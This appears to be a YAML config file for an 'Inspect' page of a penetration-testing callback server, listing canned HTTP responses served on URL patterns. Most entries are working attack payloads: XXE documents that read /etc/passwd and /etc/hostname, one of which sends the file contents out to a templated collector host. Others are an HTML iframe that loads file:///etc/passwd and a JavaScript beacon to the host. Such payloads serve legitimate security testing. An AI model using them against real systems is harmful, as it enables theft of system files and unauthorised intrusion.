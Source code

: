 ```yaml
---
title: Inspect
description: Reflect back HTTP requests in various formats
weight: 1
payloads:
  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /dt$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c?xml version=\"1.0\" encoding=\"ISO-8859-1\"?\u003e\n \u003c!DOCTYPE foo [  \u003c!ELEMENT foo ANY \u003e \u003c!ENTITY xxe SYSTEM \"http://{{ .Host }}/{{ .NotifyString }}/xxe-test\" \u003e]\u003e\u003cfoo\u003e\u0026xxe;\u003c/foo\u003e"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /evil\.dtd$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c!ENTITY % payl SYSTEM \"file:///etc/passwd\"\u003e\n\u003c!ENTITY % int \"\u003c!ENTITY % trick SYSTEM ''http://{{ .Host }}:80/{{ .AlertPattern }}/xxe?p=%payl;''\u003e\"\u003e"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /hello$
    data: '{"headers":{"Content-Type":"application/json"},"body":"{\"data\":\"hello world\"}"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /ht$
    data: '{"headers":{"Content-Type":"text/html"},"body":"\u003chtml\u003e\u003cbody\u003e\u003cimg src=\"{{.AlertPattern}}/static-lh\" /\u003e\u003ciframe src=\"file:///etc/passwd\" height=\"500\"\u003e\u003c/iframe\u003e\u003c/body\u003e\u003c/html\u003e"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /js$
    data: '{"headers":{"Content-Type":"text/javascript"},"body":"var s = document.createElement(\"img\");document.body.appendChild(s); s.src=\"//{{ .Host }}/{{.AlertPattern}}/s\";"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /sh$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c?xml version=\"1.0\" standalone=\"yes\"?\u003e\n\u003c!DOCTYPE test [ \u003c!ENTITY xxe SYSTEM \"file:///etc/hostname\" \u003e ]\u003e\n\u003csvg width=\"128px\" height=\"128px\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" version=\"1.1\"\u003e\n\u003ctext font-size=\"16\" x=\"0\" y=\"16\"\u003e\u0026xxe;\u003c/text\u003e\n\u003c/svg\u003e"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /sv$
    data: '{"headers":{"Content-Type":"image/svg+xml"},"body":"\u003c?xml version=\"1.0\" standalone=\"yes\"?\u003e\u003c!DOCTYPE ernw [ \u003c!ENTITY xxe SYSTEM \"file:///etc/passwd\" \u003e ]\u003e\u003csvg width=\"500px\" height=\"100px\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" version=\"1.1\"\u003e\u003ctext font-family=\"Verdana\" font-size=\"16\" x=\"10\" y=\"40\"\u003e\u0026xxe;\u003c/text\u003e\u003c/svg\u003e"}'
---
```


Depends on an internal code